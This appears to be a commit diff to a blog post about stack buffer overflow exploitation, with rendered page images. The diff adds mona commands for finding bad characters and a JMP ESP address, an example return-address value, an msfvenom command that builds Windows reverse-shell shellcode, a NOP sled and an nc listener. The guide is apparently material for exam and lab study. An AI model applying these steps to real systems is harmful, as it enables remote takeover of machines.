

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-08-11-bufferOverflow.md, in a window 1280 px wide and 1400 px high, scrolled down 3677 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-08-11-bufferOverflow.md
+++ b/_posts/2020-08-11-bufferOverflow.md
@@ -152,11 +152,13 @@ except:
 
 When the application crashes, EIP should be equal to 41414141 (hex value of "AAAA").
 
+------
+
 ### Crash replication & controlling EIP
 
 #### Pattern
 
-Generate a cyclic pattern to find the exact offset of the crash :
+Generate a cyclic pattern to found the exact offset of the crash :
 
 ```
 # Mona
@@ -224,41 +226,104 @@ payload = ""
 
 Re-run exploit.py, EIP should be equal to 42424242 (hex value of "BBBB"). You know control EIP !
 
+------
+
 ### Finding bad characters
 
-Certain byte characters can cause issues in the development of exploits. We must run every byte through the program to see if any characters cause issues. By default, the null byte (x00) is always  considered a bad character as it will truncate shellcode when executed.
+Certain byte characters can cause issues in the development of exploits. We must run every byte through the program to see if any characters cause issues. By default, the null byte (x00) is always considered a bad character as it will truncate shellcode when executed.
 
-- !mona bytearray -b "\x00" -> copy results to payload variable
-- Re-run exploit.py
-- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> copy bad chars
-- !mona bytearray -b "\x00 + BAD_CHARS" -> copy results to payload variable
-- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.
+We will send bad characters recursively and analyze if they need to be removed. Let generate the list of bad characters with mona :
+
+```
+!mona bytearray -b "\x00"
+```
+
+Copy the results in the variable "payload". And re-run exploit.py, the application should crash. Now to found those bad characters use this command :
+
+```
+!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
+```
+
+If "BadChars" are found, we need to exclude them as well.
+
+```
+!mona bytearray -b "\x00 + <BAD_CHARS>"
+
+# Example
+!mona bytearray -b "\x00\x01\x02\x03"
+```
+
+Then compare again :
+
+```
+!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
+```
+
+Repeat those two steps until the results status returns "Unmodified", this indicates that no more bad characters exist.
+
+------
 
 ### Finding a jump point
 
+#### JMP ESP - Inside the .exe
+
 ```
-!mona jmp -r esp -cpb "BAD_CHARS"
-Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards
+!mona jmp -r esp -cpb "<BAD_CHARS>"
 ```
 
-or
+#### JMP ESP - inside a DLL
 
 ```
 !mona modules
-!mona find -s "\xff\xe4" -m DLL
 ```
+
+We need to found a .dll were Rebase, SafeSEH, ASLR, NXCompat are sets to False. When you found it, run the command below to search for a JMP ESP (FFE4), inside the dll :
+
+```
+!mona find -s "\xff\xe4" -m <DLL>
+```
+
+#### Return address
+
+Choose an address in the results and update exploit.py :
+
+- Setting the "retn" variable to the address, written backwards
+
+```
+# Example
+0x625011af : "\xff\e4"
+
+# exploit.py
+retn = "\xaf\x11\x50\x62"
+```
+
+------
 
 ### Generate payload
 
-msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "BAD_CHARS" -f py -> Copy the generated shell code setting the payload variable
+Now we generate our shellcode without the badchars that we found :
+
+```
+msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "<BAD_CHARS>" -f c
+```
+
+Copy the generated shellcode and update exploit.py :
+
+- Setting the "payload" variable equal to the shellcode
+
+------
 
 ### Prepend NOPs
+
+A NOP-sled is a technique for exploiting stack buffer overflows. It solves the problem of finding the exact address of the buffer by effectively increasing the size of the target area, \x90 represents a NOP in assembly. This instruction will literally do nothing and continue on with code execution.
 
 ```
 padding = "\x90" * 16
 ```
 
-### Start nc listerner
+------
+
+### Start a listener
 
 ```
 nc -lvp <PORT>
````
